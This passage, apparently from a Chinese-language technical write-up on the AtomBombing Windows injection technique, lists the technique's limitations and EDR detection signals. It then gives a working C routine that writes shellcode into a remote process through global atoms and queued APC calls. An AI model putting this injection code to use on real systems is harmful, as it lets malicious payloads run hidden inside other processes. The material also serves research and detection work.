2. **可靠性受限**
   - 依赖代码洞的存在
   - ROP 链可能因 DLL 版本不同而失效
   - 需要目标线程处于可劫持状态

3. **Atom 表限制**
   - 每个 Atom 最多 255 WCHAR（510 字节）
   - 需要多次写入大型 shellcode
   - 性能开销较大

4. **检测难度降低**
   - 现代 EDR 已经可以检测异常的 Atom 操作
   - `GlobalGetAtomNameW` 通过 APC 调用是可疑行为
   - 线程上下文频繁修改会被标记

## 实现细节

### Atom 写入优化

```c
BOOL AtomWriteMemory(HANDLE hThread, PVOID remoteAddr, const void *data, SIZE_T size) {
    const BYTE *dataPtr = (const BYTE *)data;
    SIZE_T bytesWritten = 0;

    while (bytesWritten < size) {
        // 计算本次写入大小（最多 255 WCHAR）
        SIZE_T chunkSize = min(RTL_MAXIMUM_ATOM_LENGTH * sizeof(WCHAR),
                               size - bytesWritten);

        // 准备缓冲区
        WCHAR buffer[RTL_MAXIMUM_ATOM_LENGTH + 1] = {0};
        memcpy(buffer, dataPtr + bytesWritten, chunkSize);

        // 添加 Atom
        ATOM atom = GlobalAddAtomW(buffer);

        // 挂起线程
        SuspendThread(hThread);

        // 使用 APC 写入数据
        NtQueueApcThread(
            hThread,
            GlobalGetAtomNameW,
            (PVOID)(ULONG_PTR)atom,
            (PVOID)((BYTE *)remoteAddr + bytesWritten),
            (PVOID)(chunkSize + sizeof(WCHAR))
        );

        // 恢复线程执行 APC
        ResumeThread(hThread);
        Sleep(50);  // 等待 APC 执行

        // 删除 Atom
        GlobalDeleteAtom(atom);

        bytesWritten += chunkSize;
    }

    return TRUE;
}
```
